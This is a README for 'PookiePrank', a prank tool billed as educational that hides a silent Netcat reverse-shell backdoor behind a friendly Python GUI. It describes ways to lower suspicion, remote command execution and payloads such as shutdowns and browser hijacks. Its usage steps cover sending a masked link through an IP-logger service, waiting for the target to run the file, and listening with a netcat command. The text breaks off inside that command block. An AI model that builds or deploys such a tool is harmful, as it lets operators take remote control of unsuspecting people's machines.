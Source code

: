 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 🎀💀

> *“I seek not thy leave, nor bend my will to thine approval for the prank.  
> What must be done, I do — not by thy grace, but by mine own resolve.”*  
> — **Arnab, 2025**

---

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `Netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python GUI
- Includes optional payloads like Rickrolling, shutdown timers, popups, etc.
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
   ```bash
   nc64 -lvp 4444
